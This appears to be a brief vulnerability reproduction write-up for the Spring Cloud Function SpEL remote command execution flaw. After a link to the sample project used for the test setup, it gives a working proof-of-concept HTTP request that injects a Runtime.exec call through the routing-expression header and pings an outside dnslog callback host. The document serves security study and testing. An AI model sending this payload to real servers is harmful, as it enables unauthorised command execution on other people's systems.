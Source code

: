 # Spring Cloud Function SPEL Remote Command Execution Vulnerability

## Vulnerability Description

Spring Cloud Function is a Spring Boot-based functional computing framework that abstracts all transport details and infrastructure, allowing developers to retain all familiar tools and processes, and focus on business logic. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Spring Cloud Function </span>

## Environment construction

```php
https://github.com/spring-cloud/spring-cloud-function/tree/main/spring-cloud-function-samples/function-sample-pojo
```

## Vulnerability reappears

After building, visit

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1648445963507-0e8edf45-ca97-444a-b9f2-6e1ce7a1c838.png)

Send POC

```php
POST /functionRouter HTTP/1.1
Host: 192.168.1.27:9000
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("ping -c 1 dxytoy.dnslog.cn")
Content-Length: 1
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1648446987819-85f1a250-ed53-4794-9168-286030887cc4.png)